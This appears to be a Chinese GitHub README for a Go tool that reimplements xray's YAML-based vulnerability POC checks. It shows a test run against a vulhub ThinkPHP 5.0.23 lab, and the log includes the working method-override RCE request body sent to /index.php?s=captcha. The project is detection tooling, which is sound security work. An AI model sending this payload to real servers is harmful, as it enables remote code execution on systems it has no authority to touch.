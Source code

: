长亭科技出品的[xray](https://github.com/chaitin/xray)真心👍，🐂🍺!!!!!!

正好学了Golang，复现了下xray的poc功能模块，其中提到的Google的cel-go表达式没有摸懂，使用笨拙的方法来匹配。

## Tasklist

- [x] 解析YAML
- [x] HTTP发包
- [x] 表达式预处理
- [x] 模式匹配
- [x] 常用函数
- [x] goroutine​并发
- [x] flag传参​
- [ ] 批量获取目标
- [ ] 302跳转
- [ ] 自定义变量set
- [ ] reverse反连平台

## Test

漏洞环境：[thinkphp/5.0.23-rce](https://vulhub.org/#/environments/thinkphp/5.0.23-rce/)

POC：[thinkphp5023-method-rce.yml](https://github.com/chaitin/xray/blob/master/pocs/thinkphp5023-method-rce.yml)

```
[Sewell]: ~/Documents/xray_poc_demo ✗ master*
➜  ./xray_poc_demo --poc thinkphp5023-method-rce.yml --url http://34.xxx.69.xxx:8080
------------------ 1 ------------------
* rule:{Method:POST Path:/index.php?s=captcha Headers:{Cookie: ContentType:application/x-www-form-urlencoded} Body:_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=TmlnaHQgZ2F0aGVycywgYW5%25%25kIG5vdyBteSB3YXRjaCBiZWdpbnMu&get[]=1
 Search: FollowRedirects:false Expression:response.body.bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1')
}
* resp: 200 map[Content-Type:[text/html; charset=UTF-8] Date:[Fri, 13 Dec 2019 05:58:16 GMT] Server:[Apache/2.4.25 (Debian)] Vary:[Accept-Encoding] X-Powered-By:[PHP/7.2.12]]
* expr: &{Body:bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1') ContentType: Status:}
* Vuln: poc-yaml-thinkphp5023-method-rce
* Target: http://34.xxx.69.xxx:8080
```
